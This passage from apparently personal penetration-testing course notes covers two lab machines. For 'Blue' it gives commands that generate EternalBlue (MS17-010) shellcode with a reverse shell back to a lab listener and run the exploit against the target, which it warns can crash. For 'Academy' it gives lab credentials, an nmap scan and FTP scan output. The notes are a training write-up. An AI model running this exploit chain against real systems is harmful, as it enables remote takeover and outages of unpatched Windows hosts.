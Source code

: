 ![](.gitbook/assets/2024-07-13_23-40-18_609.png)

> ❗ The machine can crash with this attack.

```bash
cd ~/tcm/peh/blue/AutoBlue-MS17-010/shellcode
./shell_prep.sh
# kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
# y
# LHOST for reverse connection:
# 192.168.31.131
# LPORT you want x64 to listen on:
# 8888
# LPORT you want x86 to listen on:
# 2222
# Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
# 1
# Type 0 to generate a staged payload or 1 to generate a stageless payload
# 0

cd ..
./listener_prep.sh
# Starts a listener
```

```bash
# Open another Terminal
cd ~/tcm/peh/blue/AutoBlue-MS17-010/
python2 eternalblue_exploit7.py 192.168.31.132 shellcode/sc_all.bin
```

![Blue VM BSOD](.gitbook/assets/2024-07-13_23-52-14_611.png)

---

## Academy

> O.S. - Debian 10
>
> Credentials:
>
> - `root`:`tcm`

```bash
mkdir -p ~/tcm/peh/academy
cd ~/tcm/peh/academy/
```

```bash
sudo nmap -p- -A -T4 192.168.31.128 -oA academy
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.31.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
```